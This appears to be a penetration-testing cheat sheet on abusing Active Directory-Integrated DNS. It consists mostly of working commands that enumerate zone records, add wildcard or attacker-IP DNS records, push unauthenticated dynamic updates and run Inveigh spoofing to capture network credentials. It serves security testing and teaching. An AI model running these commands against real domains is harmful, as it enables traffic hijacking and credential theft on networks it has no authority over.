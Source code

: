 # Active Directory - Integrated DNS - ADIDNS

ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic. Active Directory will need some time (~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol.

## LDAP-Based (Require authentication)

* Enumerate all records

    ```ps1
    adidnsdump -u DOMAIN\\user --print-zones dc.domain.corp (--dns-tcp)
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 get dnsDump
    ```

* Query a node

    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController (--legacy)
    # or
    bloodyAD -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'DC=DomainDnsZones,DC=bloody,DC=lab' --filter '(&(name=allmightyDC)(objectClass=dnsNode))' --attr dnsRecord
    ```

* Add a node and attach a record

    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 add dnsRecord dc1.example.lab <Attacker IP>

    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 remove dnsRecord dc1.example.lab <Attacker IP>
    ```

The common way to abuse ADIDNS is to set a wildcard record and then passively listen to the network.

```ps1
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

## Dynamic Updates (Doesn't require authentication)

Dynamic DNS (RFC 2136) allows using the DNS protocol to update DNS records:

1. If the zone is set to Secure Only, you need a valid Kerberos ticket.

2. If the zone is set to Nonsecure and Secure, anyone on the network can send updates.

Update a record:

```ps1
# Linux
cat << EOF > dnsupdate.txt
server dc.domain.corp
zone domain.corp
update delete test.domain.corp A
update add test.domain.corp 3600 A 10.10.10.123
send
EOF

nsupdate dnsupdate.txt

# Windows
Invoke-DNSupdate -DNSType A -DNSName test -DNSData 192.168.125.100 -Verbose
```

## DNS Reconnaissance

Perform **ADIDNS** searches

```powershell
StandIn.exe --dns --limit 20
StandIn.exe --dns --filter SQL --limit 10
StandIn.exe --dns --forest --domain <domain> --user <username> --pass <password>
StandIn.exe --dns --legacy --domain <domain> --user <username> --pass <password>
```

## References

* [Getting in the Zone: dumping Active Directory DNS using adidnsdump - Dirk-jan Mollema](https://blog.fox-it.com/2019/04/25/getting-in-the-zone-dumping-active-directory-dns-using-adidnsdump/)
* [ADIDNS Revisited – WPAD, GQBL, and More - December 5, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/adidns-revisited/)
* [Beyond LLMNR/NBNS Spoofing – Exploiting Active Directory-Integrated DNS - July 10, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)
